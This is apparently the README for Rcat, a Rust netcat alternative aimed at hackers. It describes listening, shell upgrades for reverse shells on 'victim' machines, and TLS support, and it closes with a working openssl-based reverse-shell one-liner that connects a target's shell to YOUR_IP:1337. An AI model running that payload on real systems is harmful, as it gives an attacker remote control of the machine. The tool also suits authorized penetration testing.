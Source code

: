 <div align="center">

# Rcat
### A better netcat for hackers

</div>

### Overview

__Rcat__ is a modern _netcat_ written in Rust, packed with features for hackers.

<img src="images/rcat_curl.svg">

Here we listen on port `tcp:9001`, and receive an HTTP request made with `curl`.

### Install
#### Static binaries

We provide binaries for:
* [Linux amd64](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_amd64)
* [Linux arm64](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_arm64)
* [Windows](https://github.com/0xfalafel/rcat/releases/latest/download/rcat.exe) (amd64)
* [Mac OS](https://github.com/0xfalafel/rcat/releases/latest/download/rcat_macos) (arm64)

#### Build from source

```bash
git clone git@github.com:0xfalafel/rcat.git
cargo install --path .
```

### Features

#### Familiar syntax

Rcat keeps a syntax similar to _netcat_. You already know how to use it.

* `-l` to listen.
* `-u` for udp.

#### Shell Upgrade

Rcat can __upgrade your shells__ with the `--pwn` option.  
With an upgraded shell, you can use shortcuts like `Ctrl + C`, clear the terminal with `clear` or `Ctrl + L`, etc. It's like having an SSH connection.
There is no need to [type 7 commands](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) each time you obtain a reverse shell.

<img src="images/rcat_pwn.svg">

> Here the commands `stty rows 22 cols 65` and `export TERM=xterm-256colors` are typed automatically when the connection is received.

#### Shell Upgrade Windows

Windows is also supported by the shell upgrade feature.

<img src="images/rcat_win.svg">

#### Resize

Unless you use the `-R` option, the remote terminal will automatically be resized when you change the size of your terminal.  
> (Rcat sends a _SIGTSTP_, resizes the terminal with the `stty` command then uses `fg` to restore the application running.)

<img src="images/rcat_resize.webp">

> In this clip we run `htop` on the victim machine, and the reverse shell is automatically resized.

#### TLS support

Support of __TLS__ with `-t` or `--tls`.  
Here we do an HTTPS request. We use `-t` to establish a _TLS connection_, and `-c` to replace newlines (`\n`) with _CRLF_ newlines (`\r\n`) as required by the HTTP protocol.

<img src="images/rcat_tls.svg">

  
## Encrypted Reverse shell

With TLS support, let's see how we can do an __TLS encrypted reverse shell__. Without installing any new tools on the victim.

If you have a signed certificate (with [let's encrypt](https://certbot.eff.org/instructions) for example), you can use the `--key` and `--cert` options to use it.

### TLS listener

But for now let's use a self-signed certificate:

```bash
> rcat -l 1337 --self-signed
Listening on 0.0.0.0:1337 (tcp/tls) with a self-signed certificate
```

### Reverse Shell

On a __linux__ target, you can use the following command to __connect to your listener__.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| openssl s_client -connect YOUR_IP:1337 >/tmp/f
```
